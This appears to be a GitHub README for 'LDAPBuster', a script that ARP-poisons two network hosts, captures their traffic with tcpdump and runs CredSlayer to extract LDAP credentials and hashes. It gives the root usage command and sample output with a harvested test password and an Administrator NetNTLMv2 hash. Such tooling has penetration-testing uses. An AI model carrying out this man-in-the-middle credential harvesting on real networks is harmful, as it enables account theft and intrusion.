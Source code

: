 # LDAPBuster
Script to automate the ARP poisoning and credential harvesting of network devices that utilize LDAP for authentication.

This script started as a way to automated the communication between firewalls and remote access appliances that use AD and LDAP for authentication but expended to allow the targetting of any two addresses and parse credentials passed between them. 

The script with take two inputs, and start an ARP poison attack on them to allow for a MITM. While this is happening, a capture is started to save all data that is captured during the MITM. This runs until you hit neter, in which the file is then saved, the poison stopped, and CredSlayer is then run on the output file automatically to extract all credentials and hashes available. 

Usage: 

> sudo python test.py --victim VICTIM --target TARGET --output OUTPUT

Output: 

`LDAP Buster
By: Hann1bl3L3ct3r
Script to target two devices for ARP poisoning to capture authentication information which is saved to a file and parsed with CredSlayer.
Note: Must be run as ROOT
[*] IP forwarding enabled.
[*] Starting tcpdump to capture traffic into test.pcap...
[*] tcpdump started and writing to test.pcap
[*] Starting packet forwarding between victim and target...
[*] Press Enter to stop the capture and begin parse...
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
[*] Starting ARP poisoning...

3239 packets captured
3245 packets received by filter
0 packets dropped by kernel
[*] tcpdump stopped and saved to test.pcap.
[*] Starting Parse...
[*] ARP tables restored.
[*] Running CredSlayer on test.pcap...
[INFO] Processing packets in 'test.pcap'
[LDAP 192.168.1.106:33039 <-> 192.168.1.5:389] [FOUND] credentials found: cn=Test User,cn=Users,dc=TEST,dc=local -- Password#1
[INFO] Interesting things have been found but the CredSLayer wasn't able validate them: 
[LDAP 192.168.1.106:33038 <-> 192.168.1.5:389] [INFO]  name:  -- Administrator::TEST:019cef6365b05c2c:BA19872D0F64B8435D17CF3B95FE1709:010100000000000000030E4D34ABD401E3F54FBC526BD95A000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0000000000 -- {'version': 'NETNTLMv2'}
[INFO] Processed in 16.095 seconds.
'
